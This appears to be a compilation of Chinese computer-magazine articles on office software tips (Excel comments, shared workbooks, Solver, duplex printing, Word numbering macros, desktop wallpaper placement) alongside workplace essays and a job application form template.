一份复杂的工作表，虽然各单元格的表格线不同，有合并单元格存在，有空行存在等，但若其基本的格式没有改变，我们可以使用格式刷对合并、拆分的单元格等进行快速复制，将复杂的工作表的轮廓复制出来再利用。操作中需要注意的是，选中原表格所在区域，单击“格式刷”按钮后，需要在目标位置用鼠标拖拉的办法将表的格式复制过来。注意，这时复制过来的是除表格内容外的所有属性，包含表格的单元格数量、表格的线形、表格的前景背景颜色等，均与原表格相同。你只需在新表中填写内容即可。

### 3. 多张幻灯片 着色“齐刷刷”

用PowerPoint制作的幻灯片，往往是一组幻灯片有一个统一的风格。由于每张幻灯片要着色的方案基本相同，所以也可以用格式刷快速地为多张幻灯片着色。不管幻灯片的背景是纯色还是纹理，甚至是图片，都可以快速复制过来。需要注意的是，先为一张幻灯片背景着色，然后点格式刷，在任务窗格中的“幻灯片”选项卡下单击需要着色的幻灯片缩略图即可。
小提示：
如果你想一次更改文档中的多个选定内容的格式，可改上面的单击“格式刷”按钮动作为双击，然后逐个设置要更改格式的对象；要停止设置格式，可按“Esc”键。
（文/梁子）

## 职场私奔你有胆吗

不少人都有逃离职场，不顾一切“私奔”的念头，或跳槽，或不告而别给自己放个假。王功权的高调私奔，进一步刺激了白领们想要私奔的心情。“私奔”这一刺激的游戏，你有胆玩吗？
某网络公司的老板收到员工明月的辞职邮件，内容让他哭笑不得——“老板，不好意思，今天我要私奔了！感谢您多年关心和照顾，无法面对您和同事的期盼信任，祝大家工作幸福。因为我在公司顺利找到一个两倍于我目前工资的工作，诱惑过于巨大，又鉴于辞职流程过于复杂，故不告而别。叩请宽恕，明月鞠躬！”
“总是春心对风语，最恨人间累功名。谁见金银成山传万代？千古只留一片情！”……“私奔发起人”王功权的《私奔之歌》，对职场人可谓有强大的催化剂作用。
在大城市，每个人都有颗私奔的心，或者不告而别给自己放个假，关掉手机玩失踪，无伤大雅地偷偷懒，或者干脆跳槽，都是不同程度的“职场私奔”。下面就让我们听听私奔前辈们怎么说。

### 责任更重要 私奔不过是一个梦

李先生（职场5年之痒中）

> 我在一家大型国企做行政，工作稳定，但要想升职也不容易，需要慢慢熬年头。我工作5年了，激情慢慢褪去，感觉什么都没干，什么技能都没学。我们同事间互相聊天都说，这地方呆上5年你再也走不出去了，就像温水煮青蛙，轻松的工作、安逸的生活会你慢慢得再没有奋斗的激情。
有时的确会有种职场私奔的冲动，想出去透气，闯荡闯荡，不想一生就此度过。但是我也不太年轻了，又刚刚成家，懂得自由诚可贵、责任更重要的道理，所以胆大妄为的职场私奔对于我而言不过是一个梦。

### 点评

事实证明，“私奔”的门槛很高，“职场私奔”也不例外。人家王功权私奔是建立在有经济基础上的私奔，对于绝大多数白领来说，私奔是有心无力的。

### 以私奔的心态调剂心情

水蜜桃（职场老鸟）

> 有时上班上得很厌倦，感觉职场就像个囚笼，没有自由，只有干不完的活、开不完的会。当加班加得有些累了、烦了的时候，我就偷偷给自己放个小假，当作为下一阶段的工作“充电”。
我在单位是老员工了，不忙的时候早来会、晚走会，逛逛商场、看看电影、做做美容，或者压力最大、心情最差的时候请个假出去旅游散散心，都没问题。偶尔带着“私奔”的心态去偷个小懒，再回来上班时心情明显改善不少。同事们奇怪我总能保持不错的状态，其实我是以私奔的心态不断调整心情。我觉得没必要非要离职，小私奔无伤大雅，大私奔可就要慎重了。

### 点评

智通人才网资深职场顾问胡先生：如果不具备“职场私奔”的有利条件，那么在工作中偶尔偷个懒，给自己放个小假，喝一杯喜欢的饮料、去天台远眺一下，也是种不错的放松方式，也比较适合中国白领的国情。偷得浮生半日闲，其实是调剂职场倦怠的一剂良方。

### 私奔虽爽 代价巨大啊

赵小天（刚奔回来）

> 我2008年毕业，在单位做了两年销售，毫无起色，厌倦了日复一日毫无变化的生活，我直接“裸辞”了。刚离开的两个月超爽，像是绷紧线的风筝突然获得自由了，四处旅游，享受悠闲的生活。但没出3个月，钱包越来越瘦，工资卡见底，便开始不自在了。
现在觉得和旅游比起来，工作还是重要的，职场私奔的后果就是再拼命找工作！
我以前的工作单位无法再回去了，关键是我在原单位做了两年的客户和业绩都白费了。前同事告诉我，在我离开的半年时间里，我的回报开始了，业绩突飞猛进，当然这一切都跟我没关系了。我不仅错过了丰厚的奖金，也错失了升职加薪的机会。现在，如职场新人般，一切要从头来过！啥也不说了，总而言之，私奔是要付出代价的，伤不起的，千万别玩这个！

### 点评

电机英才网：职场竞争激烈，如果不能保证回来后还能保住职位，以及有足够的经济支持，“职场私奔”还是不要轻易尝试为妙。
你有过私奔的念头吗？付诸行动了吗？
欢迎发信至 zc@cfan.com.cn，谈谈您的经历和感受。
（文/Justdo）

## e族养生经 把玩出来的病玩回去——让电脑帮你找回健康

迷恋电脑可以增长知识，但同时也是一件劳神伤人的事情。把握不好会对你的身心健康造成严重影响。如果你约束不了自己呆在电脑前接受辐射，让血液凝滞的时间，那么，就让电脑来管管你吧——让电脑来控制你玩游戏或上机的时间，让电脑来监控你的工作量并强制你被动休息，让电脑带领你起来主动进行身体锻炼，凡此种种，都不失为健康补救的好办法。

### 一、强制休息 张弛要有道

谁都知道呆在电脑前时间长了对身体不好，但工作或学习一忙，游戏打得一起劲，什么时间都忘得一干二净了。对于那些不能自觉把握时间、起来活动的电脑族来说，每工作一段时间后，让电脑强制你休息一段时间，这也不失为一个好办法。

安装一个Workrave小软件后，系统托盘有一个驻留图标，通过右键菜单的“首选项”进入设置窗口，选择“计时器”菜单项中的“休息”选项卡，选中“启动计时器”；接着设置每隔多长时间休息一次，每次休息多长时间，延后生效时间等。设置生效之后，当到达设定的休息时间时，电脑会锁定屏幕，强制你离开电脑休息。

其实，这种方法更适合于平时在家沉溺于电脑的时候，或者给孩子的电脑上强制安装来控制电脑对孩子视力和身体的伤害。

### 二、监控总量 工作勿超时

人的体力有一个耐受限度，虽然，也许你可以忍受更长的工作时间，但为了健康，还是建议你科学规划工作时间，以积累健康资本。每天让自己在电脑前工作的总时间不要超过若干小时，这是个总体衡量指标。

通过Workrave“计时器→每日限制”选项卡可以设置每天的总工作量限制，工作快要超时，电脑会有温馨提示。

小提示：工作在先，提醒也有倒计时
鼠标左键点击系统托盘中的Workrave软件程序图标，桌面上会弹出一个小小的倒计时提醒窗口，告诉你本阶段工作时间剩下多少，本日设定的工作时间还剩下多少。

### 三、带你锻炼 人与机共舞

让电脑强行使你停止工作，这也不是最好的办法，即便是不看电脑了，窝在椅子上闭着眼睛也不是最好的办法。最好的办法是化被动因素为主动因素，电脑播放某个体操画面，你也跟着一起做，这是一个再好不过的积极锻炼办法。

在任务栏的Workrave图标上通过鼠标右键命令“体操”一项，在弹出的窗口中根据提示信息来让电脑带动你做一些健身运动，这样就可以在很大程度上缓解自身的疲劳。这套体操中涵盖可以恢复身体常见劳损的最常见部位的运动项目，你可以根据自己的情况选择运动。

小提示：你的辛苦“专家”知道

也许你每天辛苦，觉得没人能理解你。其实，WorkRave最知道你的辛劳。通过系统托盘图标的右键“统计”菜单，你可以很轻松地知道自己在过去的岁月中每天工作的时间和休息的时间。如果最近过度疲劳，通过这张表中的工作时间也一定能体现出你虐待自己身体的历史。遇到这种情况，那么一定要多注意调整休息和运动时间了。

解铃还须系铃人。如果电脑伤害了你，让电脑出来帮你，把玩出来的病玩回去吧。身体是干事业的本钱，让我们在信息高速路上狂飙的同时，注意善待自己的身体吧。

（文/金仓）

## 巧用Excel 2010 我的批注不一样

在Excel表格中，如果我们需要对某一单元格进行注释说明时，一般都是通过插入批注的方式进行。插入批注的方式也基本雷同，首先是选中相应的单元格，然后执行“审阅→新建批注”命令，之后在新建的批注框中编辑批注信息即可。在面对这千篇一律的批注设置时，如果能改变一下我们插入批注的方式，使之更具渲染力，就能大大提高表格的可视效果。

### 一、图片批注一目了然

对单元格进行批注是我们常用的一种注释方式，不过默认的方式都是在批注框中输入文字信息。当我们将鼠标指向插入批注的单元格时，就会自动弹出批注框显示批注信息了。虽说文字批注信息详细，但与图片相比，则图片效果更显得生动。比如说某一商品名称不易理解，如果我们用图片做批注，就能使其一目了然了。

首先是激活批注框，将文档作者删除后，在批注边框中右击鼠标，选择“设置批注格式”，在随后打开的“设置批注格式”对话框中，执行“线条与颜色→颜色→填充效果”命令，即可打开“填充效果”对话框。在随后打开的“填充效果”对话框中，执行“图片→选择图片”命令，在打开的“选择图片”对话框中，选择相应的图片，再单击“插入”，最后依次关闭所有对话框。此时再看，批注即可变成我们所选择的图片了。

不论是文字批注还是图片批注，其批注框默认的都是长方形，感觉过于呆板。那我们能不能改变一下批注框的外形，使其更加活泼可爱呢？可以！首先执行“文件→选项”命令，在打开的“选项”对话框中“常规”下单击“快速访问工具栏”，之后在右侧的“自定义快速访问工具栏”下单击“从下列位置选择命令”，找到并单击“绘图工具格式选项卡”，在该选项卡下选中“更改形状”，再单击“添加”，最后单击“确定”关闭对话框即可。这样，就能将“更改形状”添加到快速访问工具栏供我们使用了。

### 二、批注变一变 效果更好看

通过上述操作，改变的不仅是批注框的外形，更重要的是让表格充满活力，更具吸引力。

当我们将“更改形状”添加到快速访问工具栏后，按默认方式插入一个批注，并编辑好批注内容，然后单击批注框使其呈激活可编辑状态，在“快速访问工具栏”中单击“更改形状”，在打开的“形状”列表中选择一款自己喜欢的形状单击鼠标，此时再看我们插入的批注框，是不是就变成刚才选择的形状了？

### 三、替代批注也实用

对于单元格注释，除了插入批注的方式外，设置数据有效性也是一个不错的选择。只是注释方式不同而已。通过数据有效性替代批注，不仅支持键盘选中单元格显示，而且可以选中多个单元格同时进行设置，还能支持通过选择性粘贴进行有效性复制。

通过数据有效性进行单元格注释时，同样是选中需要设置批注的单元格，然后执行“数据→数据有效性”命令，在打开的“数据有效性”对话框中切换到“输入信息”选项卡，先勾选“选定单元格时显示输入信息”，在“标题”和“输入信息”框中分别输入我们要提示的内容，单击“确定”即可完成设置。这样，当我们选中该单元格时，就会显示出注释的信息了。

掌握上述几种方法后，在以后的表格编辑中如果能根据实际情况灵活运用批注方法，不仅能达到给单元格注释的目的，还能使人一目了然，为表格编辑锦上添花。

（文/刘长德）

## 在电脑屏幕的右上角张贴课表

作为教师，每学期都有一张固定的课表，如果将课表截取成一张图片，张贴在电脑屏幕右上角空白处，应该是一个不错的选择。这样既不容易被桌面图标遮挡，又能时刻提醒上课时间，免去误课之忧。但默认情况下，桌面背景有“居中、平铺、拉伸”三种设置，采取以上三种设置均不能实现。通过以下两种方法即能实现这一目的。



### 方法一：使用 Photoshop 制作整张背景图片

打开 Photoshop，新建图片，将图片尺寸调整为 1024*768（具体大小视屏幕尺寸比例和分辨率而定），将截好的图片粘贴在画布右侧空白位置，保存图片，再使用“显示属性”中的桌面背景设置，浏览到该图片，选择“居中”设置即可。这种方法对熟悉截图工具和图片制作软件的人士比较方便。

### 方法二：使用注册表编辑器定位桌面图片

(1) 单击“开始→运行”，键入“Regedit”后回车，打开注册表编辑器；
(2) 依次展开[HKEY_CURRENT_USER\control panel\desktop]分支，然后在右侧窗格中新建字符串值“Wallpaperoriginx”和“Wallpaperoriginy”；
(3) 分别双击新建的“Wallpaperoriginx”和“Wallpaperoriginy”，进行编辑，输入合适的数值数据（如图所示）。两个字符串数据值均为0时表示该图片居中；两个字符串值不为0时，分别代表桌面背景图片与屏幕左边缘和上边缘的偏移像素值。笔者分别输入了580和0。

技巧：
输入数值后，不关闭注册表，先回到桌面上，在桌面空白处右击鼠标，在右键菜单中选择“属性”，打开“显示属性”对话框，在“桌面”选项卡中，重新设置图片，把位置调整为“居中”，单击“应用”，看输入的数值是否合适。如果不合适，再回到注册表中更改相对应的数值，直到适合为止。

提示：
截取的图片可使用 BMP、JPG、GIF 等多种格式，但不得使用 PNG 格式，否则无法定位。

（文/郭萍）

## 应聘信息 Application

| 应聘职位 Position | | 填表日期 Applying date | 年 月 日(yyyy/mm/dd) |
| :--- | :--- | :--- | :--- |
| 个人期望待遇 Expected salary | | (照片) Photo | |
| 姓名 Name | | 出生日期 Birth date | 年 月 日 |
| 婚姻状况 | □已婚 □未婚 □其它 | | |
| 国籍 Nationality | | 参加工作日期 Starting date | 年 月 日 |
| 爱好特长 Hobbies | | 专业职称 Position | |
| 最高学历 Highest degree | | 学历类型 Major | |
| 所学专业 Fields of study | | 外语语种与等级 Communication skills (languages / level) | |
| 现所在地 | | 当前工作状态 current working situation | □employed 在岗 □unemployed 非在岗 |
| 联系电话 Tel | | 电子邮箱 E-mail | |
| 详细联系地址 Adress | | | |

**通讯信息 Contact**

**受教育及培训情况 Education And Training**

| 学校或培训机构名称 School/Institution | 专业与培训名称 Training/major name | 起止时间 Starting/ending time | 取得文凭/资格证书 Diploma/certificate |
| :--- | :--- | :--- | :--- |
| | | | |
| | | | |

**工作经历 Working Experience**

| 单位或机构名称 Company/institution | 所任最高职位 Position | 起止时间 | 证明人及联系方式 References and contacts |
| :--- | :--- | :--- | :--- |
| | | | |
| | | | |

**特别说明：以下信息仅供本单位作为对您的综合了解，不会泄露并作其它用途。**
Notice: the above details are collected to complete your application, and won't be used for other purpose.

请叙述您在以往任职经历中的主要工作成就？
Please outline your work experiences and past achievements?

## 打造你的黄金简历表

投简历，找工作好不容易得到了一次自己比较中意的公司面试机会，但是在面试前一般正规的公司都会让我们填写一份面试人员基本信息表（特别是外资企业），很多朋友觉得之前简历当中已经将自我信息表述得很详细了，为什么多此一举再填一遍呢？

原因嘛，在于中小企业、规模较大的公司内部管理高度模块化，负责招聘的HR部门只负责对简历按学历、经历、年龄进行初步筛选，面试人员小组（一般来自真正的人员需要部门）才是真正的决策者。我们投出的简历格式五花八门，面试人员小组当中部门经理的时间是非常宝贵的，为了节省信息读取时间，所以才会让面试者将自我信息转换成统一的格式。

比如HR部门安排一些适合的人员面试，我所在的IT部门一般会让部门主管、部门经理、HR部门经理组成面试小组（有时候公司总经理也会参加），这里面除了我以外很多人都没仔细看过面试人员的简历，基本上都是进来一个面试人员，大家会拿着他的面试人员基本信息表对关心的问题进行提问。那有何技巧，通过这一细节在面试过程中脱颖而出呢？下面就以我们部门的员工基本信息调查表为例，说明一下填写履历表的技巧，如图1所示。

- 清晰的应聘求职要求。在求职要求方面请与简历上保持一致。现在很多朋友都喜欢在求职网站上海投简历，有时候得到一份面试机会自己都不知道什么时候投的。如果实在不记得，可以在面试前，在网站上找一下自己应聘的职位。以51job为例，首先登陆个人账户，在页面上点击“我的工作申请”，就可以找到了，如图2所示。
- 薪资待遇。我建议填“依公司规定”，因为正常情况下公司对应聘人员的薪资预算已经完成。如果大家不了解市场行情，填了一笔比较离谱的待遇要求，很容易导致直接被PASS。
- 爱好特长尽量与所应聘的工作相关联。比如应聘的是“Java设计师”职位，那么书法、艺术方面、写作方面的爱好就可以考虑省略了。
- 学历方面只要写出最高学历就可以了。注意将毕业时间与毕业证书上保持一致。
- 至于其他的信息确保与简历一致。很多应聘者的简历写的情况与填写的信息有出入，此时面试小组当然会打破沙锅问清情况了，原因吗千奇百怪。但是应聘者的面试分数可就要打折了。
- 工作经历不要像写流水账。如果是刚毕业的大学生，我建议尽可能写出与应聘工作相类似的兼职、社会实践经历。如果是有经验的朋友，不妨写一写有利于争取这份工作的内容。



## 职场杂谈：房子向左事业向右

提起买房子，很多人都要头疼，先不提买不买得起，单是买房后与事业产生的冲突就让正当壮年、豪情激荡的职场人纠结不已。要房子还是要事业？这对事业刚刚起步的年轻人来说，往往是非左即右的两难选择。

不管是开发商搞的鬼，还是丈母娘助的澜，总之买房对多数职场人来说绝非易事。
首先，要考虑：买在哪里？
买在家乡？在外打拼数年，回家，已经变得有些遥不可及，不是不能够，而是这么多年积累的各种资源和人脉，让人不甘心，舍不得一朝化为乌有。回家要一切从头开始，又有几个人有这魄力和勇气呢？如此，买一栋自己住不进的房子，又有何意义？
那就买在工作所在地？似乎也不妥当。铁打的营盘流水的兵，今日在此公司，明日、明年在哪里，却又不确定了。毕竟我们大多数人不是手捧金饭碗的公务员。连唐骏都换了几个东家，何况我等小白领？如果有唐骏的财力倒罢了，可惜全国也只有他一个打工皇帝。

假如以上问题都已经解决，房子买了，每月的月供会如约而至。不管你这个月是不是参加喜宴太多钱包瘪瘪，还是家中变故囊中羞涩，抑或遭遇黑心老板拖欠工资，银行的催账短信如分秒不差的闹钟，都会在每月的某一天准时到达。别诉苦，别撒娇，更要赖，银行，是您的债主，他铁面无私，法不容情。

买了房子了，您还想换工作吗？换了工作工资会跟现在一样高吗？会过试用期吗？会稳定长久吗？您还敢跟公司提涨薪吗？老板会因此发毛让您卷铺盖走人吗？万一答案为否定，或者不确定，你那跃跃欲试跳槽的双脚，就得缩回来。上司给您小鞋穿？假装神经未梢坏死吧！上升没空间？假装是无志青年吧！老板抠门工资低？假装高风亮节，视金钱如粪土吧！

压力大了吧？不想买了？丈母娘答应了，房产商也不答应啊，今天不买，也许明天更买不起了。就算房产商答应不涨价了，您看看左邻右舍、亲朋好友的新房，您好意思不买？！
如此，房子向左，事业向右，您向哪儿？
买房是所有非富二代、官二代的年轻人必须要面对的问题，工作难找，好工作更难找，而房子，今天买不起，明天价更高。该如何选择？关于房子和事业，孰先孰后？欢迎发信至zc@cfan.com.cn，谈谈您的看法和观点。

> (来源：《才富》作者：姜朝霞)

## 一张工作表 多人协作完成

我们常常看到，有些部门面对一张需要由多人完成填写的Excel表格，往往采取这样的操作方法，那就是先由一个人来填写，等其填写完毕，解除锁定之后，再接着由另一个人填写。这样做效率太低了，其实，微软的Excel系统提供了协同作业的方式，可以多人同时对一张工作表进行填写操作。

小提示：
Microsoft Excel很早的版本就提供了协同作业的功能。从Excel 2000开始，协同作业更加方便了，因为工作组中的每个成员都可以同时编辑工作簿。利用突出显示修订、冲突日志和批注可以轻而易举地了解其他用户的工作情况。共享工作簿的好处是，可以让用户使用共享工作簿来创建和编辑公式、更改格式乃至添加工作表。工作簿文件既可以在本计算机中，也可以在局域网中，还可以在Internet中。

### 一、开放权限 让大家一同干活

我们以部门成员分别填写工作簿中各自小组的任务完成任务情况为例，说明共享工作簿的方法。
第一步: 首先将要共享的工作簿文件保存到网络上一个大家可以访问到的硬盘目录当中，执行“工具”菜单中的“共享工作簿”命令，出现“共享工作簿”窗口。
第二步: 单击“编辑”选项卡，选择“允许多用户同时编辑，同时允许工作簿合并”复选框，然后单击“确认”按钮。
第三步: 随后会出现“此操作将导致保存文档”提示对话框，按下“确定”按钮之后，可以看到文件的标题栏上出现“共享”标志。
之后，如果网上有其他用户使用该文件时，执行“工具”菜单中的“共享工作簿”命令，出现共享对话窗口，然后单击“编辑”选项卡就可以见到正在使用这个工作簿的用户。

### 二、收回权限 结束共享填表

如果不再需要其他人对共享工作簿进行更改，可以将自己作为唯一用户打开并操作该工作簿。一旦撤销了工作簿的共享状态，将中断所有其他用户与共享工作簿的联系，关闭冲突日志，并清除已存储的冲突日志，此后就不能再查看冲突日志。
第一步: 执行“工具”菜单中的“共享工作簿”命令，出现共享对话窗口，然后单击“编辑”选项卡。
第二步: 这时需要确认自己是在“正在打开工作簿的用户”框中的唯一的用户，如果还有其他用户，他们都将丢失未保存的工作内容。
第三步: 清除“允许多用户同时编辑，同时允许工作簿合并”复选框，然后单击“确认”按钮。这时可见原来存在于文件标题栏文件名后的“共享”标志消失，说明共享被取消。

温馨提示:
为了确保其他用户不会丢失工作进度，应在撤销工作簿共享之前确认所有其他用户都已得到通知，这样，他们就能事先保存并关闭共享工作簿。

### 三、修订信息 灵活选择显示

当你共享了工作簿之后，那么在编辑的同时，你还可以看到其他人对该工作簿的修订情况。要查看工作簿中的修订信息，可以执行下列操作:
第一步: 执行“工具”菜单中的“修订”命令，接着执行“突出显示修订”命令，出现“突出显示修订”对话框。
第二步: 根据需要设置需要的修订选项，包括具体修订的时间范围、修订人范围、修订位置范围等。然后按下“确定”按钮，你就会可以看到每一个被修改的单元格出现蓝色的边框。
第三步: 之后，当鼠标指向这些修订单元格时，会出现一个信息框，提示你修订的相关情况。

### 四、拒绝接受 五种方案可选

对于协作组内其他成员对工作簿的修改，你还可以设置接受或拒绝修订的范围。具体方法是:
第一步: 执行“工具”菜单中的“修订”命令，执行“接受或拒绝修订”命令，出现“接受或拒绝修订”对话框。
第二步: 根据需要设置需要的修订选项，按下“确定”按钮，可以看到一个新对话框，在该对话框中可以看到文档的修订信息，如用户、时间和内容等信息。此外还有五个按钮，在该对话框下，可以根据需要按下相应的按钮。
(文/郭玲丽)

## 让生产效益最大化 我有高招

一些从事统计财务工作的朋友，经常需要按照领导的安排，每月做生产计划以及测算利润的工作。而在做这些工作中往往涉及到如何取得生产经营的效益最大化问题。显然每个企业的生产经营条件数据都是明摆的，比如每月可用的原材料、人工、最大加工能力、每种产品的毛利，怎么在这些已知条件下，合理安排搭配各种产品的生产经营计划，取得最大利润呢？
如果单纯地通过以前传统的手工计算方式，非常繁琐，而且需要通过多次计算，而利用Excel的规划求解工具就可以非常轻松地解决这一难题。下面就以测算某公司2011年8月份的生产经营计划为例，来看看规划求解在这方面的独特作用。

### 一、对相关生产数据进行初步处理

启动Excel2010，新建一个工作簿，在其中将本企业已知的生产经营数据输入到一个工作表中。在E5:E10区域中，输入已知条件项目，如每吨产品耗用原材料甲(Kg)、每吨产品耗用原材料乙(Kg)、每吨产品耗用人工(工时)、单位毛利(元/吨)、最大加工能力(吨)、最佳计划产量(吨)。在I5:F9中输入所生产的四种产品A、B、C、D的生产条件具体数据，如生产A产品每吨产品耗用原材料甲218 Kg，原材料乙144 Kg。
在下面的F13:F15区域中输入可提供生产条件的最大限制值，如本月可供原材料甲总量40000Kg，原材料乙为25000 Kg，可供人工为38000工时，接着在G17:G20区域中输入根据前面计划产量测算的原材料甲、原材料乙、耗用工时以及测算利润额。计算时在G17中输入公式“=SUMPRODUCT(F5:F15,$F$10:$F$10)”，此公式的作用是将每种产品的单位消耗量与最佳计划量的乘积相加，从而得到消耗原材料甲的总量，然后将此公式复制到下面的对应单元格中即可。

### 二、第一次使用规划求解

在Excel2010中，初次使用规划求解时，在工具面板中是找不到这个选项的，需要先将其予以加载。方法非常简单，单击“文件”菜单，选择“选项”命令，在弹出的“Excel选项”对话框中，选择“加载项”选项，然后单击底部的“转到”按钮。在弹出的“加载宏”对话框的“可用加载宏”列表框中，选中“规划求解加载项”选项，单击“确定”按钮，这样以后使用时，从“数据”菜单中就可以找到规划求解选项了。

### 三、测算最佳生产计划以及最大利润

在前面的基础上，就可以通过规划求解工具来测算最佳生产计划以及最大利润了。具体操作如下:
单击“数据”菜单中的“规划求解”按钮，在弹出的“规划求解参数”窗口中，单击“设置目标”右侧的选择按钮，选择工作表中测算利润数据所在的单元格$G$20，单击“通过更改可变单元格”右下角的选择按钮，选择工作表中四种产品计划产量所在的单元格区域$F$10:$F$10，接着在“遵守约束”下面的列表框输入工作表中的约束条件，比如A产品的计划产量≤A产品的最大加工能力时，只需要单击“添加”按钮，在弹出的“添加约束”对话框中，在“单元格引用”中选择A产品计划产量所在的单元格F10，从中间的符号中选择“<=”，“约束”单元格中选择A产品的最大加工能力所在的F9，单击“确定”按钮即可，其他约束条件依此类推输入。
进行以上设置，检查无误后，从“选择求解方法”列表框中选择自己需要的一种方法，如“非线性GRC”，单击“求解”按钮，在弹出的“规划求解结果”对话框中，可以选择是否生成规划求解报告，如运算结果报告、敏感性报告等。最后单击“确定”按钮，在原工作表中，就可以计算出每种产品的最佳生产计划量以及最大利润，如A产品30吨，B产品60吨，C产品80吨，D产品1吨，其测算利润为517605元。
以上仅仅是通过规划求解来安排生产计划，实际上规划求解还可以应用在生产经营方面的其他测算中，比如贸易经济、项目规划等方面，相信通过此工具可以帮助很多朋友解决在生产经营过程中遇到的许多难题。
(文/朱以华)

## 暗渡陈仓 实现Excel双面“硬”打印

很奇怪，在Excel中(Office2000、2003等版本中)，要实现双面打印很麻烦，没有Word里用奇、偶页打印那么容易。

明的不行就来暗的，目前有很多打印机都可以实现双面打印，以惠普1020打印机为例，看我简单设置就能实现比Word奇偶页打印还要方便的双面打印。
第一步: 页面设置。启动Excel，打开需要双面打印的长文件，点击“文件”菜单，单击“页面设置”。
第二步: 打印机设置。在刚刚打开的“页面设置”对话框中，点击右侧的“选项”，打开“HP laser jet 1020属性”对话框，在这个对话框中，点选“完成”选项卡，选中“文档选项”下的“双面打印(手动)”复选框。
第三步: 按提示打印。此时，你可以点击“确定”回到页面设置对话框，再点击“确定”回到文档。看上去文档毫无变化，其实打印机已经默认编排了双面打印。
然后，放心地点击“打印”按钮，打印机开始工作，跳出一个“双面打印说明”提示框，告诉你正确的换纸方法。等偶数页全部完成后，只要按平时的方法取出已经打印一面的纸张，反转，调整好方向放入，然后点击提示框中的“继续”，片刻之后，打印完成。
该方法在具备双面打印功能的打印机上可以大胆尝试，我们甚至可以抛弃Word中的手动设置奇、偶页打印和逆页序打印的繁杂步骤，直接用该方法实现快速双面打印，以一个100页纸的电子表格来看(在单位如人事档案、工资等方面这是常有的事)，实现双面打印就可以省下50页纸，10次就可以省下一包常规打印纸，这会给单位带来多大的节能降耗空间！
(文/王卫华)

健康养生从轻松掌握经络穴位开始

生活水平的不断提高和富贵病的趋于泛滥，促使人们不断提高健康意识；昂贵的医疗费用又提醒人们自我养生和保健的重要性。中医文化以保健养生见长而闻名于世，要了解中医文化，就不能不熟悉经络和穴位。

但是，人体300多个穴位，认识和学习起来又谈何容易！只要你留意过医院或书店里的人体穴位挂图，那些密密麻麻的穴位点和稀奇古怪的名称，一看就足以让你头大。买上一套这样的图，恐怕对你学习也帮助不大，因为在你还没看之前，首先就被它吓住了。你愿意投资买一套连自己也没有把握的挂图吗？不过，有一款人体穴位3D模型软件“穴位3D”可帮你速成。这是一款显示三维人体穴位的免费软件，其中包括12正经及其全部309个穴位。软件立体感强，形态逼真，它可以作为你快速掌握人体穴位的得力助手。不花钱的东西你不妨可以试试！软件虽然很直观，但如果你对经络和穴位没有一个基本认识，那么使用起来还是有点不知何去何从。下面，就让我带你，从实用的角度出发，看看如何用这款软件掌握我们人体的经络和穴位。

## 一、多路出击，各个击破

穴位在经络图上密密麻麻，穴位难找是很多刚刚学习中医的朋友面临的共同问题。其实，每个穴位都有自己的路径和轨道，那就是十二条经络的位置。只需根据一些中医针灸入门书籍（或网上搜），找到要找的那个穴位所在的经络就好办了。

具体定位方法是：在软件界面上单击鼠标右键，弹出十二经络菜单，你可以通过选择经络菜单，任意选择查看人体12经络所包含的穴位分布位置。

在查看经络所包含的穴位时，将鼠标移动到任意一个穴位的红点处，就可以在界面下侧看到有关该穴位的简要介绍。如果想进一步了解该穴位的细节内容，在该穴位处单击鼠标左键，就会弹出该穴位的详细资料介绍。

## 二、名称定位，现学现用

你或许还不知道那么多穴位的具体位置。例如，看到一本书说合谷穴按摩可以治疗某种疾病，但你连合谷穴在哪里也不知道。这时，这个软件就可发挥作用。你只需在软件界面左下角提供的查询位置输入欲查询的穴位的拼音全拼，然后单击回车键，即可查询到该穴位。例如，要查询“合谷”穴，因此输入hegu，在屏幕上显示的是大写“合谷”的全拼，查到穴位后，软件会用红色点标出该穴位在人体模型上的位置，点击这个红点就可以看到此穴位的详细描述了。

## 三、看清穴位，掌握窍门

你千万别以为屏幕上的三维人体图是一成不变的。其实，它可以按照你的意愿来改变位置和大小。以便你可以看得更清楚。在3D人体模型上按住鼠标左键随意旋转人体模型，以便于详细查看人体周身的经络以及穴位。同时按住Ctrl键并用鼠标左键拖动，就可以随意移动人体模型到窗口的任意位置。按键盘上的逗号键缩小模型，按半角句号键放大模型，按左斜杠键将模型恢复到原始状态。

(文/济平)

Office文档编码打印全自动

最近，做文案工作的我，接到这样一个任务：打印5000份内容相同的文件。任务要求：在文件编码位置打印从No:00001至No:05000，每份文件打印2份。任务时间6小时。

接到任务感觉这活特别繁琐，一页一页添加连续编码要做一天也不一定做完。考虑到时间紧任务重，我就想走捷径。印象中Word里的宏功能强大，立马上网查询相关内容，结果是没用的多，实用的少。于是，去粗取精，去伪存真，把查到有用的代码经过整合→修改→调试，嘿，成了！

为了满足大家的不同需求，我特意设置了宏运行时出现互动对话框，询问你要打印几位编码？一个编码页打印几份？从几打印起始编码？打印编码到几结束？最后在“宏”将要开始打印的时候时，向你汇报你所做的设置情况。

## 一、准备工作

以新建一个名称为“电脑爱好者之自动编码”的宏为例。

- 1. 点击“工具”—“宏”—“宏”（如图1）
- 2. 创建一个新宏。
- 3. 接下来出现如图3画圈的代码段。看到如图3所示的代码后，一定要全部删除（从“Sub 电脑爱好者之自动编码()”向下一直到“End Sub”），粘贴上我的代码。

```
Sub 电脑爱好者之自动编码()
' 粘贴代码内容
End Sub
```

因为我的代码已经含有上述部分代码，如果你直接复制、粘贴、运行宏的时候，宏会提示你错误。

注意：如果你的宏里有别的代码，需要把我在代码最前边，标注“通用声明”的两段代码，剪切到宏的通用声明中（即把“Dim BhiWs”和“Dim FenShu”两段代码，剪切到宏的最顶端）最后记得保存Ctrl+S。

## 二、实战演练

- 1. 将光标定位在编码需要出现的地方（“宏”在光标所在的位置自动填写编码）。
- 2. 点击“工具”—“宏”—“宏”。
- 3. 选择宏名为“电脑爱好者之自动编码”（与图2大体重复），点击运行。

直接点“确定”则默认打印的是6位数字编码，即最小编码000001，最大编码999999。

如需打印两位编码，输入“2”，则最小可以打印的编码为01，最大可以打印的编码为99。

以此类推，最大可以打印7位编码（最小0000001，最大9999999）。

- 4. 一个编码页你要打印几份。
- 5. 输入你的开始号。
- 6. 设置打印结束号。

打印四位编码，打印到0099结束，直接输入“99”，打印到000178结束，直接输入“178”点击确定，依次类推。

- 7. 为了防止操作失误造成损失，我设置了“打印内容确认”对话框。

最后，让计算机替你完成繁琐的连续编码工作吧，希望我的小探索给你的工作带来便利。

注：为了让大家在遇到类似的问题时，能及时应对，特将调试好的宏代码（能打印1-7位的数字编码）分享给大家。请到http://iask.sina.com.cn/u/1704202287/ish?folderid=0下载。
